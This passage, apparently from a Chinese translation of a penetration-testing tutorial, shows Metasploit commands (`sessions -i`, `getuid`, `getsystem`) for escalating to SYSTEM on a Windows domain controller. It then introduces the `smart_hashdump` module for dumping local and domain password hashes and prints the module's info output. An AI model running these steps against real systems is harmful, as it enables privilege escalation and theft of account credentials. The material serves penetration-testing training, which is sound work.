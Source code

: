 +   `sessions -i 2`: `-i` 是与编号会话进行交互

+   `getuid`: 这显示我们正在以 `fflintstone` 身份运行

这只是为了好玩，因为上次运行它没有起作用。

+   `getsystem`: 中了！我们有赢家！当我们重新运行 `getuid` 时，我们看到我们现在是系统。是的，起身跳起您的快乐舞蹈：您现在拥有系统级别的特权！它完全被控制了：

![](img/47855e4d-9bf9-4358-a17e-969ec44e82cd.png)

因此，我们已经发现问题一直是 UAC，并且我们没有能力绕过通常出现在屏幕上的提示。即使具有管理员级别的访问权限，UAC 提示也会破坏我们完全攻陷机器的尝试。

因此，让我们掠夺系统并收集我们的战利品。作为域控制器，它掌握着王国的钥匙。在渗透测试中，一旦被掠夺，游戏就结束了。在真实世界的黑客攻击中，一旦实现了这一点，您的网络就完蛋了；除非完全重建整个网络结构，否则您永远无法确定您的攻击者完全被锁在外面。为此，我们将使用 `post` 模块来收集所有用户帐户及其哈希。为此，我们将使用 `post/windows/gather/smart_hashdump` 模块。

此模块的信息如下：

```
    msf post(smart_hashdump) > info

    Name: Windows Gather Local and Domain Controller Account Password Hashes
    Module: post/windows/gather/smart_hashdump
    Platform: Windows
    Arch: 
    Rank: Normal

    Provided by:
    Carlos Perez <carlos_perez@darkoperator.com>

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    GETSYSTEM false   no  Attempt to get SYSTEM privilege on the target host.
    SESSION      yes  The session to run this module on.

    Description:
    This will dump local accounts from the SAM Database. If the target 
    host is a Domain Controller, it will dump the Domain Account 
    Database using the proper technique depending on privilege level, OS 
    and role of the host.

```
